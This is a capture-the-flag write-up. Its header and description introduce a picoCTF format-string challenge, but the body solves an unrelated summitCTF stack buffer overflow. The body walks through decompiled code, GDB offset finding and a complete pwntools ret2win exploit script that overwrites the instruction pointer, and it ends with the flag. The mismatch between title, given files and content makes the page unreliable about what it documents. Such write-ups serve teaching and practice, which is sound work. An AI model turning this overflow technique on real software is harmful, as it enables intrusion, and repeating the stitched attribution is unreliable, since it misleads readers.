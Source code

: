 ```yaml
---
title: "Format String 1 (picoCTF 2024)"
summary: "Easy pwn Challenge - format string vuln"
description: "Easy pwn Challenge - format string vuln"
tags: [pwn, easy, writeup]
date: 2023-04-23T22:00:00-05:00
draft: false
searchHidden: false
ShowToc: true
TocOpen: false
hidemeta: false
# weight: 1
---
```


## Description

Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!

Given files: [format-string-1](/picoctf-format-string-1/format-string-1) [format-string-1.c](/picoctf-format-string-1/format-string-1.c)

---

## Writeup

I'm going to use GDB with the [pwndbg](https://github.com/pwndbg/pwndbg) plugin for this challenge. Run `gdb <file>`

![name](/summitctf-simple-stack-smash/2023-04-23-21-44-48.png#center)

Here is the main function revealed in Ghidra:

```c
undefined4 main(void)
{
  char name_input [16];
  
  setvbuf(stdout,(char *)0,2,0);
  setvbuf(stderr,(char *)0,2,0);
  printf("Please enter your name: ");
  fgets(name_input,1024,stdin);
  printf("Hello, %s!\n",name_input);
  return 0;
}
```
Curiously, there exists a `win` function:

```c
void win(void)
{
  system("cat /src/flag.txt");
  exit(0);
}
```

A ret2win challenge, where the objective is to redirect execution to the win function (`win_addr`). To do so, we need to figure out at what point of our input, the buffer overflow occurs (`offset`).

In gdb, `info fun win`: gives us the win_addr =` 0x08049216`

To find the offset we send a bunch of strings in the following cyclic pattern:
`aaaabaaacaaadaaaeaaafaaagaaahaaaiaaa..` to find until what letter can the stack hold.
```py
#!/usr/bin/python3

from pwn import *

elf = ELF("./simple-stack-smash")
p = elf.process()
win_addr = 0x08049216

context.binary = elf
context.log_level = "DEBUG"
gdb.attach(p)

p.sendline(cyclic(100))  # send pattern
p.interactive()  
# run script, enter 'c' in gdb to continue
```
We can see in gdb that the program SEGFAULTed when it's `%EIP` was pointing to 'gaaa' which caused the buffer overflow. If you're unfamiliar with assembly registers, `%EIP` is the instruction pointer which tells the computer what the next command is that must be executed. After making `%EIP` to point to our win function, we get the flag.

![name](/summitctf-simple-stack-smash/2023-04-23-23-04.png#center)

&nbsp;

### Solve script
Completing the script:
```py
#!/usr/bin/python3

from pwn import *

elf = ELF("./simple-stack-smash")
p = elf.process()
win_addr = 0x08049216

context.binary = elf

# context.log_level = "DEBUG"
# gdb.attach(p)
# p.sendline(cyclic(100))  # sending pattern

offset = cyclic_find("gaaa")

p.sendlineafter(b"name: ", b"A" * offset + p32(win_addr))
p.interactive()
```

## Flag

`summitCTF{G1mMI3_S0M3th1NG_H4rD3r_PlZ}`

---